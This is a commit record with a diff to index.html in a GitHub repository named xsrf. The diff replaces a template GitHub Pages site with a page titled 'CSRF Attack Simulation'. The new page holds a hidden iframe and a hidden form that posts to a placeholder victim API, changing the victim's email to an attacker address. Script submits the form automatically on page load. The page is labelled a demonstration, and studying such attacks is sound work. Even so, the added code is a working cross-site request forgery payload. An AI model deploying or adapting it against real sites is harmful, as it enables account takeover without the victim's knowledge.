

Before and after one commit to zsoltbalintmindit/xsrf, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -4,78 +4,36 @@
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <meta http-equiv="X-UA-Compatible" content="IE=edge">
-    <meta name="description" content="A simple GitHub Pages site">
-    <meta name="author" content="Your Name">
-    <title>My GitHub Pages Site</title>
-
-    <!-- Basic styling -->
+    <title>CSRF Attack Simulation</title>
     <style>
-        body {
-            font-family: Arial, sans-serif;
-            margin: 0;
-            padding: 0;
-            background-color: #f4f4f4;
-            color: #333;
-        }
-
-        header {
-            background-color: #4CAF50;
-            color: white;
-            padding: 1em 0;
-            text-align: center;
-        }
-
-        main {
-            padding: 20px;
-            max-width: 800px;
-            margin: 0 auto;
-        }
-
-        h1 {
-            font-size: 2.5em;
-            margin-bottom: 0.5em;
-        }
-
-        p {
-            font-size: 1.2em;
-            line-height: 1.6;
-        }
-
-        footer {
-            text-align: center;
-            padding: 1em 0;
-            background-color: #333;
-            color: white;
-            position: absolute;
-            width: 100%;
-            bottom: 0;
+        /* Hiding the iframe */
+        iframe {
+            display: none;
         }
     </style>
 </head>
 <body>
-    <header>
-        <h1>Welcome to My GitHub Pages Site!</h1>
-    </header>
 
-    <main>
-        <p>Hello! This is a simple GitHub Pages site. You can use this template to start building your own site. GitHub Pages allows you to host static websites directly from your repository.</p>
+    <h1>Simulating a CSRF Attack</h1>
+    <p>This page demonstrates a hidden CSRF attack using an iframe and an automatically submitting form.</p>
 
-        <h2>About This Site</h2>
-        <p>This is a demo page to show how easy it is to get started with GitHub Pages. You can edit the content here, add more HTML, or even use a static site generator like Jekyll to create a more dynamic website.</p>
+    <!-- Hidden iframe that will contain the form -->
+    <iframe id="attackFrame" name="attackFrame"></iframe>
 
-        <h2>How to Get Started</h2>
-        <p>If you're new to GitHub Pages, follow these steps:</p>
-        <ol>
-            <li>Create a repository named <code>username.github.io</code> (replace <code>username</code> with your GitHub username).</li>
-            <li>Commit your <code>index.html</code> file to the repository.</li>
-            <li>Go to <code>https://username.github.io</code> to see your site live!</li>
-        </ol>
+    <!-- Form designed to simulate a CSRF attack -->
+    <form id="csrfForm" action="https://target-victim-site.com/api/change-data" method="POST" target="attackFrame">
+        <!-- Form fields that would typically be part of a request -->
+        <input type="hidden" name="user_id" value="12345">
+        <input type="hidden" name="action" value="change-email">
+        <input type="hidden" name="new_email" value="attacker@example.com">
+    </form>
 
-        <p>To learn more about GitHub Pages, check out the <a href="https://docs.github.com/en/pages" target="_blank">official documentation</a>.</p>
-    </main>
+    <script>
+        // Automatically submit the form when the page loads
+        window.onload = function() {
+            document.getElementById('csrfForm').submit();
+        };
+    </script>
 
-    <footer>
-        <p>&copy; 2024 Your Name | Built with GitHub Pages</p>
-    </footer>
 </body>
 </html>
```
